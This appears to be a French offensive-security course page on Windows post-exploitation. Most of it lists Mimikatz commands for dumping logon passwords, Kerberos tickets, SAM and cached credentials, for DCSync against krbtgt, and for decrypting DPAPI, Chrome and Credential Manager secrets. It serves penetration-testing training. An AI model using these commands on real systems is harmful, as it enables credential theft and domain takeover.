

repository: VBlackJack/ShellBook · page: formations/windows-hacking-mastery/05-module/index.html · generator: mkdocs

---
tags:
  - formation
  - security
  - windows
  - hacking
  - post-exploitation
  - persistence
  - lateral-movement
  - mimikatz
---

# Module 5 : Post-Exploitation & Persistence

Après avoir compromis le domaine, l'objectif est de maintenir l'accès et de pivoter vers d'autres systèmes. Ce module couvre les techniques avancées de credential dumping, la création de tickets Kerberos forgés, les mécanismes de persistence, le mouvement latéral et l'évasion des défenses.

## Objectifs du Module

À la fin de ce module, vous serez capable de :

- Extraire des credentials avec Mimikatz en profondeur
- Créer et utiliser des Golden et Silver Tickets
- Établir des mécanismes de persistence discrets
- Réaliser du mouvement latéral avec différentes techniques
- Contourner les défenses (AMSI, Defender, ETW)

**Durée estimée :** 6.5 heures
**Niveau :** Avancé

---

## 1. Credential Dumping Avancé

### 1.1 Mimikatz en Profondeur

!!! info "Mimikatz - L'outil incontournable"
    Mimikatz reste l'outil de référence pour l'extraction de credentials Windows, malgré sa détection par tous les antivirus.

**Commandes essentielles :**

```powershell
# Démarrer Mimikatz
.\mimikatz.exe

# Activer les privilèges de debug
privilege::debug

# Élever vers SYSTEM
token::elevate

# Extraire les credentials des sessions actives
sekurlsa::logonpasswords

# Extraire les tickets Kerberos
sekurlsa::tickets /export

# Extraire les clés de chiffrement
sekurlsa::ekeys

# Extraire les credentials du cache
lsadump::cache

# Extraire la SAM
lsadump::sam

# DCSync (si droits suffisants)
lsadump::dcsync /user:Administrator
lsadump::dcsync /user:krbtgt
```

**One-liner Mimikatz :**

```powershell
# Exécution sans interaction
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Avec sortie fichier
.\mimikatz.exe "privilege::debug" "log output.txt" "sekurlsa::logonpasswords" "exit"
```

### 1.2 DPAPI Secrets

DPAPI (Data Protection API) protège les secrets utilisateur. Mimikatz peut les déchiffrer.

```powershell
# Lister les master keys
dpapi::masterkey /in:"C:\Users\user\AppData\Roaming\Microsoft\Protect\S-1-5-21-...\[GUID]" /rpc

# Déchiffrer avec le domain backup key (en tant que DA)
lsadump::backupkeys /export

# Déchiffrer les credentials Chrome
dpapi::chrome /in:"C:\Users\user\AppData\Local\Google\Chrome\User Data\Default\Login Data"

# Credentials du Credential Manager
vault::list
vault::cred
```
